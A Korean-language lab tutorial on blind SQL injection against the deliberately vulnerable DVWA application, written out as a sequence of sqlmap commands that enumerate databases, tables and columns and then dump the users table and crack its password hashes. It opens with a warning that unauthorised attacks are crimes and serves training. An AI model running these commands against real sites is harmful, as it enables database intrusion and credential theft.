 ## SQL 주입 공격(Blind)
이 도구를 이용하여 허용받지 않은 서비스 대상으로 해킹을 시도하는 행위는 범죄 행위 입니다.       
해킹을 시도할 때에 발생하는 법적인 책임은 그것을 행한 사용자에게 있다는 것을 명심하시기 바랍니다.      
Blind SQL Injection은 Error-Based SQL Injection과 같이 대상 웹 페이지에 취약점을 이용하여 비정상적인 데이터베이스 쿼리를 날려 공격하는 방식입니다.    

Blind SQL Injection의 진단 화면 입니다.        
User ID 값을 입력히 URL을 확인해 보시면http://자신의 IP/vulnerabilities/sqli_blind/?id=1&Submit=Submit 이런식으로 id 값이 들어가 있는것을 확인하실수 있으실 겁니다.     
   
Blind SQL Injection 진단에서는 SQL MAP 이라는 툴을 사용하도록 하겠습니다.      
■ Burp Suite(버프스위트) 메뉴 Extender + SQLMAP.exe 설치데이터베이스를 추출하기 전에 공격 대상의 SQL Injection 취약점을 확인하기 위해서 SQL Injection 취약점을 진단하는 명령을 입력합니다.       
SQL Injection 자동화 공격을 진행할 때에는 [취약점 진단 -> DB -> 테이블 -> 칼럼] 순으로 정보를 추출합니다.     

저는 파이썬코드로 이루어진 sqlmap 을 사용하였습니다. sqlmap.py -h 를 입력하게 되면 sqlmap 의 도움말을 보실수 있습니다.      
        
DB 정보를 알아 내기기본 명령어 형식 : sqlmap.py -u URL --dbs-        
sqlmap.py -u "http://자신의 IP/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="PHPSESSID=b8i23ut9884cvjkavpvlv8ilm0; security=low" --dbs          

테이블 정보 알아내기기본 명령어 형식 : sqlmap.py -u URL -D (Database) --tables-        
sqlmap.py -u "http://자신의 IP/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="PHPSESSID=b8i23ut9884cvjkavpvlv8ilm0; security=low" -D dvwa --tables          

칼럼 정보 추출하기기본 명령어 형식 : sqlmap.py -u URL -T (테이블정보) --column-     
sqlmap.py -u "http://자신의 IP/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="PHPSESSID=b8i23ut9884cvjkavpvlv8ilm0; security=low" -D dvwa -T users --column      

데이터베이스 계정 정보 추출하기기본 명령어 형식 : sqlmap.py -u URL -C (칼럼정보) --dump      
기본 명령어 형식 : sqlmap.py -u URL -D (데이터베이스명) -T (테이블정보) --dump-     
sqlmap.py -u "http://자신의 IP/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="PHPSESSID=b8i23ut9884cvjkavpvlv8ilm0; security=low" -D dvwa -T users --dump      
마지막 명령에서 해시 해독을 물어보면 Y를 선택합니다. 계정정보와 패스워드가 무작위로 노출되는 모습을 확인할수 있습니다.     


## More Information
http://www.securiteam.com/securityreviews/5DP0N1P76E.html
https://en.wikipedia.org/wiki/SQL_injection
http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
https://owasp.org/www-community/attacks/Blind_SQL_Injection
http://bobby-tables.com/
